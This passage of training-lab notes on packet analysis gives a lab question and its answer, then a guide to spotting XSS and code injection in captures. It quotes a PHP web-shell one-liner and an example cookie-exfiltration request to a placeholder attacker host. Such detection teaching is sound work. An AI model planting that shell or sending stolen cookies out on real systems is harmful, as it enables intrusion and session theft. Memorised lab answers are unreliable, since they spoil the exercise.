 **Q11** Inspect the CRLF\_and\_host\_header\_manipulation.pcapng file, part of this module's resources, and enter the total number of HTTP packets with response code 400 as your answer.

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FcNZgZVRzTCKZdbAzhdPn%2FScreenshot%202025-09-15%20at%2010.51.49%E2%80%AFPM.png?alt=media&#x26;token=ccd261ba-64dd-45c8-86fc-3c2da2df161b" alt=""><figcaption></figcaption></figure>

**Answer : 7**



## Cross-Site Scripting (XSS) & Code Injection Detection

### Related PCAP File(s)

* `XSS_Simple.pcapng`

***

### Overview

* **Cross-Site Scripting (XSS)**: attacker injects malicious JavaScript (or other script) into web pages viewed by other users. When victims load the page, the injected script executes in their browser context and can steal cookies, tokens, or perform actions as the victim.
* **Code injection (e.g., PHP injection)**: attacker supplies input that the server interprets and executes as code (command execution, backdoor upload, etc.).
* Both types of issues are often preceded by web-based reconnaissance and may appear in HTTP traffic or server logs. PCAP captures may reveal exfiltration attempts (HTTP requests out to attacker-controlled hosts) or suspicious payloads in HTTP requests.

***

### Typical Attack Flow (high level)

1. Attacker finds an input vector (comment field, form, query parameter, etc.).
2. Attacker injects JavaScript / payload into that input.
3. When another user views the page, their browser executes the injected script.
4. The script sends stolen data (e.g., `document.cookie`) to an attacker-controlled endpoint (exfiltration via HTTP GET/POST).
5. Alternatively, code injection on the server (e.g., `<?php system($_GET['cmd']); ?>`) allows remote command execution.

***

### Indicators & What to Look For in a PCAP

* **Unusual outbound HTTP requests** from internal hosts to external IPs containing parameters that look like cookies, tokens, or encoded blobs.
  * Example: `GET http://attacker:5555/?cookie=<encoded_cookie>`
* **Repeated HTTP requests** that include session cookies or tokens in query strings.
* **HTTP requests to unfamiliar internal hosts** (internal server acting as collector).
* **Encoded/URL-encoded payloads** in request parameters that, when decoded, reveal `document.cookie`, `XMLHttpRequest`, or suspicious script fragments.
* **404/200 pairs** where an injected path results in subsequent requests using stolen tokens (indicates successful theft/use).
* **Presence of script tags** or suspicious payloads in POST bodies or query strings (HTML/JS code visible in packet payload).
* **Unexpected application responses** after suspicious inputs (e.g., shell output returned in HTTP response).
